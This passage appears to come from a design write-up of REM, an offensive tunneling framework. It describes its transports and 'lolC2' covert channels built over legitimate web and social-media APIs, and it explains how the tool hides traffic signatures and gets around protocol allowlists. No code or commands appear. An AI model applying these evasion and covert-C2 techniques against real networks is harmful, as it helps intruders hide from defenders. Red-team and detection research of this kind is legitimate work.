[https://github.com/chainreactors/rem/blob/master/protocol/tunnel/unix/unix_windows.go](https://github.com/chainreactors/rem/blob/master/protocol/tunnel/unix/unix_windows.go)

**Core architecture analysis**


#### 3.5.3 Expanding the Transport Protocol Ecosystem

**Currently implemented transports**

- **TCP**
- **UDP**
- **ICMP**
- **WebSocket**
- **SMB命名管道**
- **Unix Socket**
- **DNS (DOH)**

#### 3.5.4 lolC2: Duplex Channels via the ARQ Protocol

[lolC2](https://lolc2.github.io/) hinges on repurposing legitimate services to exchange data, masking attack traffic as normal business traffic—a canonical Section 2.2 ARQ use case.

**How it works**:

Many legitimate service APIs are inherently half-duplex: clients must initiate (HTTP polling, webhooks, social APIs, etc.). Using the Section 2.2 ARQ protocol, REM turns these into duplex channels:

- **HTTP polling**: client polls periodically to emulate bidirectional comms  
- **Webhook callbacks**: use webhook push to simulate server-to-client sends  
- **Social-media APIs**: comments/posts/etc. become covert message carriers

**ARQ’s duplex role**:

ARQ provides reliability and duplex semantics on top of these one-way mechanisms. With buffering, framing, and polling control, a one-way channel behaves like a stable two-way transport for upper layers.

By abstracting **any data-exchange-capable service** into a REM transport, covert comms gain tremendous flexibility.

This “any channel” abstraction elevates REM from a “network proxy tool” to a “network protocol reconstruction platform,” giving network-side adversarial operations significant flexibility and room to grow.

---

## 4. Summary and Vision

### 4.1 rem

The first line of rem code was written in 2021. After several engineering and design-philosophy breakthroughs and rebuilds, it matured into a complete system.

Grounded in the Chapter 2 stack reconstruction and the Chapter 3 applications, REM forms a full offensive-oriented network-adversarial architecture. The diagram below shows the full stack from base channels to application scenarios:

**Three core traits**

**Boundary dissolution:** By defining `net.Conn` as the unified boundary, REM lets any medium become the transport layer, erasing defenses based on protocol allowlists.

**Feature hiding:** The programmable Hook system dynamically composes encryption, compression, etc., making traffic signatures unpredictable and erasing static fingerprints and behavioral patterns.

**Equal topology:** Nodes are abstracted as symmetric “listen” and “connect” roles; the same code builds any topology, giving every node dual identities and breaking fixed pivot paths.

These lead to a **fundamental shift in adversarial dimension**: when boundaries dissolve, signatures vanish, and topology becomes fluid and equal, REM is no longer just evading rules—it destroys the determinism of protocols, patterns, and structures, undermining the assumptions detection relies on and moving offense/defense to a new plane.

### 4.2 Evolution Directions

**From “tech stacking” to “systemic reconstruction.”** Point breakthroughs are getting harder and short-lived; durable advantage comes from architectural innovation. REM’s full stack rebuild yields not just a point gain, but an advantage across dimensions.

Traditional detection assumes “attack traffic has identifiable traits.” When attack traffic can be traitless, defenders must shift from “spotting anomalies” to “proving normality,” requiring deeper business context, richer correlations, and proactive behavior modeling.

REM’s techniques apply to authorized pentests, red/blue, security research, and defense validation. They also signal to the industry:

**Next-gen defenses must revisit their base assumptions.** If traffic can lack fixed patterns, transports can be arbitrary channels, and protocol handling can be fully decoupled, then detection based on protocol ID, traffic analysis, and behavioral patterns must be rebuilt at a higher level.

This isn’t an endpoint—it’s a new starting point for the evolution of network-side adversarial operations.
